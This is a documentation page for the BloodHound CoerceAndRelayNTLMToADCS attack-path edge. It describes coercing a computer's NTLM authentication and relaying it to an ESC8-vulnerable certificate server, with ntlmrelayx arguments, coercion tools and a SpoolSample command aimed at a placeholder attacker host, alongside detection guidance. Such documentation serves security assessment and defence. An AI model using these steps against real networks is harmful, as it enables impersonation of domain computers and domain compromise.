 ```yaml
---
title: CoerceAndRelayNTLMToADCS
description: The target computer can be coerced to authenticate via NTLM to an ADCS server, allowing an attacker to obtain a certificate for domain authentication.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that an attacker with "Authenticated Users" access can trigger SMB-based coercion from the target computer to their attacker-controlled host via NTLM. The authentication attempt from the target computer can then be relayed to an ESC8-vulnerable web enrollment endpoint of an Active Directory Certificate Services (ADCS) enterprise CA server. This allows the attacker to obtain a certificate enabling domain authentication as the target computer.

## Abuse Info

This section provides general guidance about abusing this edge. For detailed instructions, see [references](#references) at the end of this article.

### Linux

1. **Start the Relay Server**

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to the enterprise CA and enroll a certificate, specify the HTTP(S) endpoint as the target and use the following arguments:
   
   ```bash
   --adcs --template <TEMPLATE_NAME>
   ```

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

### Windows

1. **Start the Relay Server**

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

### Detection of NTLM Relay

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9) blog post.

### Detection of Certificate Usage

Authentication using the obtained certificate is another detection opportunity. If Kerberos authentication is used, a domain controller will generate Windows Event ID 4768 ("A Kerberos authentication ticket (TGT) was requested"). This event will include the attacker's IP address rather than the target computer's IP address. Similarly, for Schannel authentication, Event ID 4624 will reveal the incorrect IP address. These detection techniques are described in detail under DETECT2 in the [Certified Pre-Owned](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) whitepaper.

## Edge Schema

Source: `Authenticated Users`, [Group](/resources/nodes/group)  
Destination: [Computer](/resources/nodes/computer)  
Traversable: **Yes**  

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)
